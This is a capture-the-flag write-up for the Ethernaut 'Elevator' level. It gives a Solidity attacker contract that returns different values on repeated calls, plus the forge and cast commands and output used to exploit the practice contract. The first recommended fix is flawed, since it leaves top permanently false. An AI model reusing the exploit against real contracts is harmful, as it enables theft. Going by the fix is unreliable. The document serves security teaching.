

> **⚠️ EDUCATIONAL PURPOSE ONLY**
> This document is part of the [Ethernaut CTF](https://ethernaut.openzeppelin.com/) educational security challenges.
> The techniques described here are for **authorized security testing and learning purposes only**.
> **DO NOT** use these methods on contracts you don't own or without explicit authorization.

---

# Elevator CTF - Exploit Report

## Challenge Information

- **Level**: 11 - Elevator
- **Difficulty**: Easy
- **Target Contract**: `0x7326cf985DdB483853E7c03096b63C8F9D84178a`
- **Attacker Contract**: `0xE9595bAa69EEd3B45CCf398dF1885009C13d74Ac`
- **Objective**: Reach the top floor (set `top` to `true`)

## Vulnerability Analysis

### The Flaw: Inconsistent External Call Behavior

The Elevator contract contains a critical vulnerability in the `goTo()` function where it calls an external function **twice** and assumes it will return the same value both times:

```solidity
function goTo(uint256 _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {      // ❌ First call
        floor = _floor;
        top = building.isLastFloor(floor);    // ❌ Second call - expects same result!
    }
}
```

**Key Issues:**
1. The contract calls `isLastFloor()` twice on an external, untrusted contract
2. It assumes the function is **pure** or **view** (always returns the same output for the same input)
3. However, the `Building` interface declares `isLastFloor()` as a **non-view** function, allowing state changes
4. An attacker can implement this function to return different values on each call

### Attack Vector

By implementing the `Building` interface with state-changing logic, an attacker can:
- Return `false` on the **first** call → enter the `if` block
- Return `true` on the **second** call → set `top = true`

This bypasses the intended logic where `top` should only be `true` if the floor is actually the last floor.

## Exploitation Sequence



## Exploit Implementation

### Attack Contract

The exploit leverages a call counter to return different values:

```solidity
contract BuildingAttacker is Building {
    uint256 private callCount;

    function isLastFloor(uint256) external override returns (bool) {
        callCount++;

        if (callCount == 1) {
            return false;  // First call: pass the check
        } else {
            return true;   // Second call: set top = true
        }
    }

    function attack() external {
        callCount = 0;
        target.call(abi.encodeWithSignature("goTo(uint256)", 10));
    }
}
```

### Execution Steps

1. **Deploy the attacker contract**:
```bash
ELEVATOR_TARGET=0x7326cf985DdB483853E7c03096b63C8F9D84178a \
forge script script/levels/11_Elevator/BuildingAttacker.s.sol:DeployBuildingAttacker \
--rpc-url $RPC_URL --private-key $PRIVATE_KEY --broadcast
```

**Result**: `BuildingAttacker deployed at: 0xE9595bAa69EEd3B45CCf398dF1885009C13d74Ac`

2. **Execute the attack**:
```bash
cast send 0xE9595bAa69EEd3B45CCf398dF1885009C13d74Ac "attack()" \
--rpc-url $RPC_URL --private-key $PRIVATE_KEY
```

**Result**:
```
Transaction Hash: 0xf3ebb535a01a0c3708111d35dde46def364919445626fd1be1c92ebf60af786f
Status: 1 (success)
Gas Used: 96259
```

3. **Verify the exploit**:
```bash
cast call 0x7326cf985DdB483853E7c03096b63C8F9D84178a "top()" --rpc-url $RPC_URL
```

**Result**: `0x0000000000000000000000000000000000000000000000000000000000000001` (true ✅)

```bash
cast call 0x7326cf985DdB483853E7c03096b63C8F9D84178a "floor()" --rpc-url $RPC_URL
```

**Result**: `0x000000000000000000000000000000000000000000000000000000000000000a` (10)

## Proof of Success

### Before Attack
- `top`: `false`
- `floor`: `0`

### After Attack
- ✅ `top`: `true` (0x01)
- ✅ `floor`: `10` (0x0a)
- ✅ Transaction Hash: `0xf3ebb535a01a0c3708111d35dde46def364919445626fd1be1c92ebf60af786f`
- ✅ Attacker Contract: `0xE9595bAa69EEd3B45CCf398dF1885009C13d74Ac`

**Objective Complete**: Successfully reached the top floor! 🎯

## Recommended Fix

The vulnerability stems from **trusting external contracts to behave consistently**. Here's how to fix it:

### Solution: Cache the External Call Result

```solidity
function goTo(uint256 _floor) public {
    Building building = Building(msg.sender);

    // ✅ Cache the result - only call once
    bool lastFloor = building.isLastFloor(_floor);

    if (!lastFloor) {
        floor = _floor;
        top = lastFloor;  // Use cached value
    }
}
```

### Alternative: Use View Functions

If the interface can be modified, declare `isLastFloor()` as `view`:

```solidity
interface Building {
    function isLastFloor(uint256) external view returns (bool);  // ✅ view enforced
}
```

This prevents state changes and ensures consistent behavior (though determined attackers can still work around this with clever storage patterns).

### Best Practice

**Never assume external calls return consistent values unless enforced by `view`/`pure` modifiers.** Always:
1. Cache results from external calls
2. Validate state after external interactions
3. Follow the Checks-Effects-Interactions pattern
4. Minimize trust in external contracts

## Key Takeaways

1. **External contracts are untrusted**: They can return different values on subsequent calls
2. **Interface modifiers matter**: Non-view functions can modify state between calls
3. **Cache external results**: Always store and reuse external call results to prevent manipulation
4. **Reentrancy-like vulnerabilities**: This is similar to reentrancy where external code can change state unexpectedly

## References

- Challenge Address: `0x7326cf985DdB483853E7c03096b63C8F9D84178a`
- Attack Contract: [BuildingAttacker.sol](BuildingAttacker.sol)
- Deployment Script: [BuildingAttacker.s.sol](../../script/levels/11_Elevator/BuildingAttacker.s.sol)
- Ethernaut Level 11: https://ethernaut.openzeppelin.com/level/11
